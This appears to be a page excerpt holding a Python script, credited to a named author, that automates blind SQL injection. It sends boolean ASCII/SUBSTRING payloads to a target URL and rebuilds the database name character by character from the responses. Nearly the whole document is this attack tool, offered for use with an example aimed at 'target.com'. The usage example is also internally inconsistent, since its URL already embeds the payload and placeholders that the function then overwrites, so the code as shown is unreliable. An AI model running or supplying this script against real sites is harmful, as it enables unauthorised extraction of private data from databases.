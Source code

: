 ### Blind SQL Injection Automation
```python
#!/usr/bin/env python3
"""
Blind SQL Injection Automation Script
Author: LakshmiKanthanK(letchupkt)
"""

import requests
import string
import time

def blind_sqli_extract(url, injection_point, query_template):
    """Extract data using blind SQL injection"""
    result = ""
    position = 1
    
    while True:
        found_char = False
        
        for char in string.printable:
            # Construct payload
            payload = query_template.format(
                position=position,
                char=ord(char)
            )
            
            # Inject payload
            test_url = url.replace(injection_point, payload)
            
            try:
                response = requests.get(test_url, timeout=10)
                
                # Check for positive response
                if "Welcome" in response.text:  # Adjust condition
                    result += char
                    position += 1
                    found_char = True
                    print(f"Found: {result}")
                    break
                    
            except requests.RequestException:
                continue
        
        if not found_char:
            break
    
    return result

# Usage example
url = "http://target.com/page.php?id=1' AND (SELECT ASCII(SUBSTRING(database(),{position},1)))={char}--"
database_name = blind_sqli_extract(url, "{char}", "1' AND (SELECT ASCII(SUBSTRING(database(),{position},1)))={char}--")
```

---
